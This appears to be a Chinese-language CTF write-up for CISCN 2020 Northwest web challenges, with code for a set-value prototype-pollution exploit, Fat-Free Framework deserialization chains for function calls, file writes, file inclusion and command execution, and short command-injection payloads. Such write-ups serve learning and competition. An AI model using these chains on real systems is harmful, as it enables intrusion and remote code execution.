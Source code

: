 ```yaml
---
title: 第十三届全国大学生信息安全竞赛西北赛区 Web题目 Writeup
tags: 
    - Writeup
    - CTF
date: 2020/8/21
---
```


Web狗无法在险恶的CTF世界中存活

CISCN2020 落幕，web所有题加起来还不如misc/crypto/re题的零头，吐了

## littlegame

js原型链污染，`set-value`库3.0.0旧版本。公开exploit如下：

```javascript
const setFn = require('set-value');
const paths = ['constructor.prototype.a0', '__proto__.a1',];
(function () {
    for (const p of paths) { setFn({}, p, true); }
    for (let i = 0; i < paths.length; i++) {
        if (({})[`a${i}`] === true) {
            console.log(`Yes with ${paths[i]}`);
        }
    }
})()
```

拿来主义，用就完了

阅读源码，可以发现在`/Privilege`处进行了`set-value`调用，并且在`/DeveloperControlPanel`处检查了`Admin`对象（一个普通的数组）的任意可控属性，那污染字典类型的原型，添加一个自定义属性即可。

最终exploit：

```python
from requests import session
ses = session()
host = ''

ses.get(host + '/SpawnPoint')
ses.post(host + '/Privilege', data={
    'NewAttributeKey': '__proto__.pwd',
    'NewAttributeValue': 'frankli'
})
print(ses.post(host + '/DeveloperControlPanel', data={
    'key': 'pwd',
    'password': 'frankli'
}).text)
```

## babyserialize

fatfree框架POP链挖掘

前段时间在WMCTF中挖的链被断掉了，稍微改一改

第一次见flag直接放phpinfo里头的。。。找了半天没找到。。。

在这里把挖到的几条链都放一下吧

### 单个任意参数调用任意函数

```python
@namespace('CLI')
class WS:
    # call func with one param
    def __init__(self, func, param):
        @namespace('CLI')
        class Agent():
            class Base:
                @namespace('DB\\Jig')
                class Mapper:
                    @namespace('DB\\SQL')
                    class Mapper:
                        protected_props = {'read': func}
                    protected_file = param
                    protected_db = Mapper()
                events = {'disconnect': [Mapper(), 'insert']}
            protected_server = Base()
        self.a = Agent()  # autoload
# payload: serialize(WS())
```

### 任意文件写

```python
@namespace('DB')
class Jig:
    # write file
    lazy = True
    data = {'frankli.php': {
        'asdf': '<?php phpinfo();exit();?>'
    }}
    dir = '/tmp/'
    format = 0
```

### 任意（存在的）文件包含

结合上面调用函数的链调用`\View->render`

```python
class View:
    # arbitrary **exisiting** file inclusion
    class Base:
        TEMP = '/tmp/'
        UI = '/tmp/'
    fw = Base()

print(ses.get(url, params={'flag': serialize(
    WS([View(), 'render'], 'frankli.php'))}
).text)
```

### wmctf的时候挖的rce链

结合上面调用函数的链调用`\Preview->resolve`  
然而这次`resolve`被删了  

```python
@namespace('CLI')
class WS:
    @namespace('CLI')
    class Agent():
        class F3:  # 随便一个存在的类
            class Preview:
                class Base:
                    hive = {'node': f'<?php system("ls");die(1);?>'}
                fw = Base()
            events = {'disconnect': [Preview(), 'resolve']}
        server = F3()
    a = Agent()
```

入口点和上面函数调用的是一样的

## easytrick

一开始是联想到了Nu1l在某处的论坛里发的利用`Exception`的`__toString`来绕过判等（属性不同，不强等于），但是无奈太长了  
`SimpleXMLElement`也找不到合适的方式利用(有可能么？)

后来想了想，不可能是利用对象的`__toString`来绕过，因为这样无法同时绕过三个判断

最后发现`1.00...001`在转字符串的时候会变成`1`

```python
class trick:
    trick1 = 1.00000000000001
    trick2 = 1.000000000000001
print(serialize(trick()))
```

## 剩下两道就放个payload吧。。

* rceme: 没过滤反引号 `?a={if:var_dump(``ls``)}{end if}`
* easyphp: Apache收到SIGUSR1的时候会软重启 `?a=call_user_func&b=pcntl_wait`
